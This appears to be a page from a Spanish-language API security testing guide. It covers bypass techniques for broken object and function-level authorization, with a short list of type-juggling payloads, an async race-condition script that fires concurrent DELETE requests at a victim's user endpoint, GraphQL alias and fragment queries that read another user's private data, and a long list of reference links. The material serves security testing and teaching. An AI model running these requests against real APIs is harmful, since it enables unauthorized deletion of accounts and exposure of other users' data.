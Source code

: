
## Explotación/Automatización

### Técnicas de Bypass Avanzadas

**Manipulación de Tipo de Datos**[^10]

```python
# Bypass mediante type juggling
payloads = [
    {"user_id": "123"},      # String
    {"user_id": 123},        # Integer  
    {"user_id": [^8]},      # Array
    {"user_id": {"id": 123}} # Objeto anidado
]
```

**Condiciones de Carrera**[^9]

```python
import asyncio
import aiohttp

async def race_condition_exploit():
    # Enviar requests concurrentes para bypass de validación
    tasks = []
    async with aiohttp.ClientSession() as session:
        for i in range(20):
            task = session.delete('/api/user/victim_id', 
                                headers={'Authorization': 'Bearer user_token'})
            tasks.append(task)
    
        results = await asyncio.gather(*tasks)
        successful = [r for r in results if r.status == 200]
        print(f"Bypass exitoso en {len(successful)} requests")
```

**GraphQL específico**[^6]

```graphql
# Bypass mediante aliases
query {
  user1: user(id: "current_user") { email }
  user2: user(id: "victim_user") { email }
}

# Bypass con fragmentos
fragment UserData on User {
  id
  email
  private_data
}
query {
  user(id: "victim_id") { ...UserData }
}
```


[^1]: https://www.cobalt.io/blog/a-deep-dive-into-broken-functionality-level-authorization-vulnerability-bfla
[^2]: https://vercara.digicert.com/resources/broken-function-level-authorization
[^3]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/12-API_Testing/02-API_Broken_Object_Level_Authorization
[^4]: https://www.akamai.com/glossary/what-is-broken-function-level-authorization
[^5]: https://unit42.paloaltonetworks.com/automated-bola-detection-and-ai/
[^6]: https://salt.security/blog/api-threat-research-graphql-authorization-flaws-in-financial-technology-platform
[^7]: https://www.stackhawk.com/blog/applying-the-owasp-api-security-top-10-to-graphql-apis/
[^8]: https://community.atlassian.com/forums/App-Central-articles/API-Testing-Guide-Types-Tools-and-Best-Practices-for-2025/ba-p/2917700
[^9]: https://blog.securelayer7.net/synchronized-code-fix-api-race-conditions/
[^10]: https://www.traceable.ai/blog-post/a-deep-dive-on-the-most-critical-api-vulnerability----bola-broken-object-level-authorization
[^11]: https://graylog.org/post/understanding-broken-function-level-authorization/
[^12]: https://dev.to/zuplo/troubleshooting-broken-object-level-authorization-44f1
[^13]: https://securemyorg.com/automating-bola-detection-in-ci-cd-pipelines/
[^14]: https://lab.wallarm.com/unsolved-challenge-api-access-control-vulnerabilities/
[^15]: https://infosecwriteups.com/api-security-in-2025-the-most-overlooked-vulnerabilities-88f513ea347c
[^16]: https://www.raidiam.com/api-security-the-definitive-guide-for-2025-and-beyond
[^17]: https://corewin.ua/en/blog-en/broken-function-level-authorization-bfla-vulnerability/
[^18]: https://cybelangel.com/the-api-threat-report-2025/
[^19]: https://www.stackhawk.com/blog/understanding-and-protecting-against-api1-broken-object-level-authorization/
[^20]: https://salt.security/blog/api5-2023-broken-function-level-authorization
[^21]: https://owasp.org/API-Security/editions/2023/en/0xa1-broken-object-level-authorization/
[^22]: https://owasp.org/API-Security/editions/2023/en/0xa5-broken-function-level-authorization/
[^23]: https://corewin.ua/en/blog-en/broken-object-level-authorization/
[^24]: https://salt.security/blog/api1-2023-broken-object-level-authentication
[^25]: https://www.pynt.io/learning-hub/owasp-top-10-guide/broken-function-level-authorization-how-it-works-and-4-preventive-measures
[^26]: https://42crunch.com/how-to-protect-apis-from-owasp-authorization-risks-bola-bopla-bfla/
[^27]: https://www.pynt.io/learning-hub/owasp-top-10-guide/broken-object-level-authorization-bola-impact-example-and-prevention
[^28]: https://learn.snyk.io/lesson/broken-function-level-authorization/
[^29]: https://www.imperva.com/learn/application-security/broken-object-level-authorization-bola/
[^30]: https://www.pynt.io/learning-hub/api-security-testing-guides/api-security-testing-tools
[^31]: https://www.stackhawk.com/blog/top-10-api-tools-for-testing-in-2025/
[^32]: https://infosecwriteups.com/the-ultimate-api-penetration-testing-checklist-2025-edition-092ca8a4056a
[^33]: https://qyrus.com/qapi/master-functional-api-testing-essential-techniques/
[^34]: https://www.testdevlab.com/blog/api-testing-with-cypress-2025
[^35]: https://testfully.io/blog/api-testing/
[^36]: https://www.indusface.com/blog/broken-function-level-authorization/
[^37]: https://dev.to/kevinwalker/top-api-testing-tools-for-2025-4dab
[^38]: https://www.jit.io/resources/appsec-tools/top-10-api-security-tools
[^39]: https://developers.cloudflare.com/api-shield/security/bola-vulnerability-detection/
[^40]: https://www.apisecuniversity.com/blog/how-i-automated-bola-detection-and-hardened-my-api----a-devsecops-tutorial
[^41]: https://unit42.paloaltonetworks.com/bola-vulnerabilities-easyappointments/
[^42]: https://www.thegreenreport.blog/articles/using-stress-tests-to-catch-race-conditions-in-api-rate-limiting-logic/using-stress-tests-to-catch-race-conditions-in-api-rate-limiting-logic.html
[^43]: https://www.radware.com/blog/application-protection/understanding-bola/
[^44]: https://www.invicti.com/web-application-vulnerabilities/horizontal-broken-function-level-authorization-bfla
[^45]: https://www.nango.dev/blog/why-is-oauth-still-hard
[^46]: https://www.invicti.com/web-application-vulnerabilities/vertical-broken-function-level-authorization-bfla
[^47]: https://www.stendahls.se/news-articles/how-to-avoid-race-conditions-and-authentication-chaos
[^48]: https://beaglesecurity.com/blog/article/graphql-attacks-vulnerabilities.html
[^49]: https://momentic.ai/resources/the-ultimate-guide-to-race-condition-testing-in-web-applications
[^50]: https://portswigger.net/web-security/access-control/idor